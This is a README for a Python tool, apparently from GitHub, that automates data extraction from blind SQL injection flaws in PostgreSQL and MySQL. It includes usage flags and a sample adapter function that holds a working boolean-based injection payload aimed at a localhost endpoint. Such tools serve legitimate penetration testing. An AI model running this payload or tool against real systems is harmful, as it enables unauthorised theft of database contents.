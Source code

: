 # Blindb
A python tool to automatically extract data from blind sql injections. Currently supports postgres and mysql.
Also uses multithreading and multiple processes to speed up the extraction.
## Install

Clone this repository and the issue the command:

`
pip install .
`

to install the tool globally.
## Usage

### Command Line Arguments

- `---adapter` The python file containing the isTrue function, to execute the sql injection

- `--dbms` The dbms system in use (mysql or postgres)

- `--output` The text file path where the database info will be written.

- `--tables-db` The path of the sqlite database where the table contents will be duplicated to. (not required if extracting only the table names)

### Example

`blindb --adapter=sqli.py --dbms=postgres --output=dbinfo.txt --tables-db=data.db`

### The adapter file

The adapter is a python file containing a single function callled `isTrue`, which take one argument (the query) and returns either True or False, based on the condition.

Exmaple:

```python
import requests

def isTrue(query):
    payload = f"""abcd1234' AND {query} AND ''='"""

    r = requests.post("http://localhost:5000/sqli",
        verify = False,
        data = {
            "q": payload
        }
    )

    return len(r.content) != 3
```

## Screenshots

![](screenshot.png)
